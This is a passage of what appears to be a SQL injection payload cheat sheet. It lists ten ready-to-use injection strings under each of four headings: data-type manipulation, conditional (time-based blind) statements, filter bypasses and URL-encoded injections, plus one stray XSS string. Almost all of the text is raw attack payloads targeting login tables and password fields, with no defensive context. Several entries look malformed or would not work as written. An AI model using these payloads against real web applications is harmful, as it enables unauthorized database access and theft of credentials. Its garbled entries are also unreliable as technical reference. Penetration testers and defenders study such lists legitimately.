 
6. Data-Type Manipulation

      
```
1. ' OR CAST(1 AS CHAR) = '1'; -- 
2. ' OR (SELECT 1 FROM users WHERE username='admin' AND password='password') = 1; -- 
3. ' OR (SELECT LENGTH(password) FROM users) = 8; -- 
4. ' OR (SELECT IF(1=1, 1, 0))=1; -- 
5. ' OR (SELECT ROW_COUNT()) > 0; -- 
6. ' OR (SELECT 1 WHERE 'hello'='hello')=1; -- 
7. ' OR (SELECT CAST(SUBSTRING(username, 1, 1) AS CHAR) FROM users WHERE id=1)='a'; -- 
8. ' OR (SELECT CONVERT(COUNT(*) USING utf8) FROM users) > 0; -- 
9. ' OR (SELECT ASCII(SUBSTRING(password, 1, 1)) FROM users WHERE username='admin') = 97; -- 
10. ' OR (SELECT CONCAT('admin', '') = 'admin'); -- 
```
    

7. Conditional Statements

      
```
1. ' AND (SELECT CASE WHEN (1=1) THEN SLEEP(5) ELSE NULL END) IS NOT NULL; -- 
2. ' AND (SELECT CASE WHEN (SELECT username FROM users LIMIT 1) = 'admin' THEN 1 ELSE 0 END)=1; -- 
3. ' AND (SELECT CASE WHEN (SELECT COUNT(*) FROM users) > 1 THEN 1 ELSE 0 END)=1; -- 
4. ' AND (SELECT CASE WHEN (1=1) THEN 1 ELSE (SELECT COUNT(*) FROM users) END)=1; -- 
5. ' AND (SELECT CASE WHEN (SELECT MAX(id) FROM users) = 1 THEN 1 ELSE NULL END) IS NOT NULL; -- 
6. ' AND (SELECT CASE WHEN (SELECT LENGTH(username) FROM users) < 10 THEN 'Short' ELSE 'Long' END) = 'Short'; -- 
7. ' AND (SELECT CASE WHEN (SELECT COUNT(*) FROM users) > 0 THEN 1 ELSE 0 END)=1; -- 
8. ' AND (SELECT CASE WHEN (SELECT user()='admin') THEN SLEEP(5) ELSE null END); -- 
9. ' AND (SELECT CASE WHEN (1=1) THEN SLEEP(2) ELSE NULL END); -- 
10. ' AND (SELECT CASE WHEN (SELECT MAX(username) FROM users) IS NOT NULL THEN 1 ELSE NULL END)=1; -- 
```
    

8. Bypassing Filters

      
```
1. ' OR '1'='1' /* 
2. ' OR 1=1; # 
3. ' OR 1=1; -- 
4. ' OR 'x'='x' /* 
5. ' OR (SELECT 'a' FROM users LIMIT 1) = 'a'; -- 
6. ' UNION SELECT 1,a,'test' from users-- 
7. ' AND '1'='1' UNION SELECT 1,2,3; -- 
8. ' UNION ALL SELECT NULL, NULL WHERE '1'='1'; -- 
9. ' OR (1=1); -- 
10. ' AND (SELECT COUNT(*) FROM products) > 0; -- 
```
    

9. Encoding Injection

      
```
1. %27 OR %271%3D%271 -- 
2. %27 OR %271%3D%271# 
3. %3Cscript%3Ealert('XSS')%3C/script%3E -- 
4. %27 UNION SELECT NULL, username FROM users -- 
5. %27 OR (SELECT * FROM products) IS NOT NULL -- 
6. %27 AND (SELECT COUNT(*) FROM users) > 0 -- 
7. %27 OR (SELECT column_name FROM information_schema.columns WHERE table_name='users') -- 
8. %27 SELECT * FROM users -- 
9. %27 AND (SELECT IF(1=1, SLEEP(5), 0)) -- 
10. +OR+1=1 -- 
```
    